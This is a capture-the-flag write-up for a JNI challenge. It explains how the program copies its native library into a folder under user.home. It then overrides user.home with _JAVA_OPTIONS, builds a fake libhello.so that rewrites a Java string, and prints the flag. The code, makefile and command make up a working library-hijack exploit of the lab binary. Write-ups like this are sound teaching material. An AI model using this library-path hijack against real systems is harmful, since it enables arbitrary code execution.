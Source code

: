 

### The weakness

``hellotest`` is written in C++, it invokes java function ``sayHello`` via JNI. The function is defined in ``Helloworld.java``, it invokes a native function ``print``.

```
    ...
    public static void sayHello(String flag) throws Exception
    {
        String msg = "Hello World from JNI!";
        print(msg);
        if (msg.contains("flag"))
        {
            //What just happened? 
            print("What the flag? How did that happen...");
            print("Your flag is: " + flag);
        }
    }
    ...
    private static native void print(String msg);
    ...
```

``print`` is a C function, defined in ``hellolib.c``, which will be used to build shared object ``hellolib.so`` to be loaded into JVM at runtime.

```
JNIEXPORT void JNICALL Java_Helloworld_print
  (JNIEnv* env, jclass cls, jstring msg)
{
    const char* str = (*env)->GetStringUTFChars(env, msg, 0);
    printf("%s\n", str);
    if (str)
        (*env)->ReleaseStringUTFChars(env, msg, str);
    fflush(stdout);
}
```

``HelloWorld`` copy ``hellolib.so`` from ``HelloWorld.jar``, here comes the vulnerability, it then copy ``hellolib.so`` to directory ``libFolder`` for later invoke. ``libFolder`` is a directoy, named *".helloWorld"*, under *System.getProperty("user.home")*. If we specify the property *"user.home"*, we can make it use library in arbitrary path.

```
    private static void loadingLibrary() throws Exception
    {
        Path libFolder = Paths.get(System.getProperty("user.home"), ".helloWorld");
        
        //Create user folder to copy libraries from jar file.
        if (!Files.exists(libFolder))
            Files.createDirectory(libFolder);
        
        //Copy library from jar file into user folder
        Path libDest = libFolder.resolve("libhello.so");
        try
        {
        //Copy libhello if not already there.
            Files.copy(ClassLoader.getSystemResourceAsStream("libhello.so"), libDest);
        }
        catch (Exception e)
        { 
            //i don't know why this is throwing an error...
            //i think this fixes it...
        }
        
        //Dynamically link to it.
        System.load(libDest.toString());
    }
```

### Create something evil

We need to create a our evil ``hellolib.c``, lets' say ``fakelib.c``.  In the file we create a char array contains string *"flag"*.

```
    jcharArray buf = (*env)->NewCharArray(env, 4);
    jchar arr[4] = {'f','l','a','g'};
    (*env)->SetCharArrayRegion(env, buf, 0, 4, arr); 
```

Assign the char array ``buf`` to ``msg``, *"\[C"* to indicate we are getting *value* field which is a char array as specified in [JNI Types and Data Structures](https://docs.oracle.com/javase/7/docs/technotes/guides/jni/spec/types.html#wp276)

```
    jclass cla = (*env)->GetObjectClass(env, msg);
    jfieldID id = (*env)->GetFieldID(env, cla, "value", "[C");
    (*env)->SetObjectField(env, msg, id, buf);
```

We need a customized makefile to build the *.so* file, since we are only allowed to create files in */tmp*, we need to change the paths accordingly.

```
libhello.so : fakelib.o
    cc fakelib.o -shared -o libhello.so
    mkdir -p .helloWorld
    cp libhello.so .helloWorld
	
fakelib.o : 
    cp /home/lib/Helloworld.h .
    cc  -c -I/usr/lib/jvm/java-8-openjdk-amd64/include -fpic fakelib.c
```

*_JAVA_OPTIONS* is way to specify JVM arguments as an environment variable instead of command line parameters. Run ``hellotest`` in ``/home/lib`` directory with *_JAVA_OPTIONS="-Duser.home=/tmp"*.

```
$ _JAVA_OPTIONS="-Duser.home=/tmp" /home/lib/hellotest
Picked up _JAVA_OPTIONS: -Duser.home=/tmp
fakelib                                                                                                                                                                 
Hello World from JNI!                   
fakelib                                 
What the flag? How did that happen...
fakelib
Your flag is: CTF{JN1_1s_r3a77y_f4n!}
```

### Reference

- [JNI Types and Data Structures](https://docs.oracle.com/javase/7/docs/technotes/guides/jni/spec/types.html#wp276)
- [Chapter 4: JNI Functions](https://docs.oracle.com/en/java/javase/13/docs/specs/jni/functions.html)
